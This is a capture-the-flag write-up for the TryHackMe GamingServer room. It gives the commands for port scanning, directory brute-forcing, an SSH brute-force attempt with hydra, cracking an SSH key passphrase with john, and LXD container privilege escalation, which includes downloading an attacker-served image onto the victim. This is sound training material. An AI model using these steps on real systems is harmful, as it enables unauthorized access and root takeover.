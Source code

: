 # GamingServer

**Room Link:** [https://tryhackme.com/room/gamingserver](https://tryhackme.com/room/gamingserver)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7) (11).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>









<figure><img src="../../.gitbook/assets/image (20) (8).png" alt=""><figcaption></figcaption></figure>









### SSH port 22

Tried bruteforcing ssh with johns username and the dictionary file we found but it didn't work

**Kali**

```
hydra -l john -P dict.lst ssh://$VICTIM
```



### TCP/80 - HTTP



<figure><img src="../../.gitbook/assets/image (3) (16) (1).png" alt=""><figcaption></figcaption></figure>



### SSH port 22

After finding the key I bruteforced that with the dictionary list found

**Kali**

```
chmod 700 secretKey
/opt/john/ssh2john.py secretKey > id_john.txt
john --wordlist=/root/dict.lst id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (19) (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i secretKey john@$VICTIM
Password: letmein
```

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>



### Privilege Escalation&#x20;

Followed this link on lxd privilege escalation&#x20;

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (17) (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp
wget http://10.10.73.204:81/alpine-v3.18-x86_64-20230712_1453.tar.gz
lxc image import ./alpine-v3.18-x86_64-20230712_1453.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<figure><img src="../../.gitbook/assets/image (18) (10).png" alt=""><figcaption></figcaption></figure>

















































